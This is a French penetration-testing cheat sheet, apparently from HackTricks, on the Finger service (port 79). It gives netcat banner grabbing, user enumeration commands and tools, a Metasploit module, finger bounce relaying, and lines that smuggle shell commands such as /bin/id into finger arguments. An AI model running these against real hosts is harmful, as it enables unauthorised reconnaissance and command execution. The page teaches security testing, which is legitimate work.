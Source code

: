 ## **Informations de base**

**Finger** est un programme que vous pouvez utiliser pour trouver des informations sur les utilisateurs d'ordinateurs. Il affiche généralement le nom d'utilisateur, le nom complet et éventuellement d'autres détails sur l'utilisateur que vous interrogez. Ces détails peuvent inclure l'emplacement du bureau et le numéro de téléphone (si connu), l'heure de connexion, le temps d'inactivité, l'heure à laquelle le courrier a été lu pour la dernière fois, ainsi que les fichiers de plan et de projet de l'utilisateur.

**Port par défaut:** 79
```
PORT   STATE SERVICE
79/tcp open  finger
```
## **Énumération**

### **Récupération de bannière/Connexion de base**
```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```
### **Énumération d'utilisateurs**

---

#### **Finger**

Le service Finger est un service de recherche d'informations sur les utilisateurs d'un système. Il est généralement utilisé pour obtenir des informations sur les utilisateurs d'un système distant. Le service Finger est généralement disponible sur les systèmes Unix et Linux.

Pour utiliser le service Finger, il suffit de se connecter au système distant et d'exécuter la commande `finger`. La commande `finger` affiche une liste des utilisateurs du système distant, ainsi que des informations sur ces utilisateurs, telles que leur nom, leur adresse électronique et leur dernière heure de connexion.

Le service Finger peut être utilisé pour effectuer une énumération d'utilisateurs sur un système distant. En utilisant le service Finger, un attaquant peut obtenir une liste des utilisateurs du système distant, ce qui peut l'aider à cibler ses attaques.

#### **Comment se protéger**

Pour se protéger contre l'énumération d'utilisateurs via le service Finger, il est recommandé de désactiver le service Finger sur les systèmes Unix et Linux. Si le service Finger est nécessaire, il est recommandé de limiter l'accès au service Finger aux utilisateurs autorisés uniquement.
```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```
Alternativement, vous pouvez utiliser **finger-user-enum** de [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), voici quelques exemples :
```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```
#### **Nmap exécute un script pour utiliser les scripts par défaut**

### Metasploit utilise plus de techniques que Nmap
```
use auxiliary/scanner/finger/finger_users
```
### Shodan

* `port:79 USER`

## Exécution de commandes
```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```
## Rebond de Finger

[Utiliser un système comme relais de finger](https://securiteam.com/exploits/2BUQ2RFQ0I/)
```
finger user@host@victim
finger @internal@external
```
<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Travaillez-vous dans une entreprise de **cybersécurité** ? Voulez-vous voir votre **entreprise annoncée dans HackTricks** ? ou voulez-vous avoir accès à la **dernière version de PEASS ou télécharger HackTricks en PDF** ? Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !

- Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)

- Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)

- **Rejoignez le** [**💬**](https://emojipedia.org/speech-balloon/) **groupe Discord** ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **Partagez vos astuces de piratage en soumettant des PR au [repo hacktricks](https://github.com/carlospolop/hacktricks) et au [repo hacktricks-cloud](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
